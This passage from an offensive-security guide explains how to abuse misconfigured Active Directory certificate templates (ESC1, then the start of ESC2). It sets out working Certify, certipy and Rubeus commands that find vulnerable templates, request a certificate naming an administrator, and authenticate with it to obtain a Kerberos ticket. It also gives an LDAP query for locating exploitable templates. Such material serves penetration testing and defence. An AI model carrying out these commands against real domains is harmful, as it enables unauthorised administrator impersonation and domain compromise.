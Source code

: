 ### Abuse

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```

To **abuse this vulnerability to impersonate an administrator** one could run:

```bash
Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'ESC1' -upn 'administrator@corp.local'
```

Then you can transform the generated **certificate to `.pfx`** format and use it to **authenticate using Rubeus or certipy** again:

```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
```

The Windows binaries "Certreq.exe" & "Certutil.exe" can be used to generate the PFX: https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee

The enumeration of certificate templates within the AD Forest's configuration schema, specifically those not necessitating approval or signatures, possessing a Client Authentication or Smart Card Logon EKU, and with the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag enabled, can be performed by running the following LDAP query:

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspkicertificate-name-flag:1.2.840.113556.1.4.804:=1))
```

## Misconfigured Certificate Templates - ESC2

### Explanation

The second abuse scenario is a variation of the first one:

1. Enrollment rights are granted to low-privileged users by the Enterprise CA.
2. The requirement for manager approval is disabled.
3. The need for authorized signatures is omitted.
4. An overly permissive security descriptor on the certificate template grants certificate enrollment rights to low-privileged users.
5. **The certificate template is defined to include the Any Purpose EKU or no EKU.**

The **Any Purpose EKU** permits a certificate to be obtained by an attacker for **any purpose**, including client authentication, server authentication, code signing, etc. The same **technique used for ESC3** can be employed to exploit this scenario.
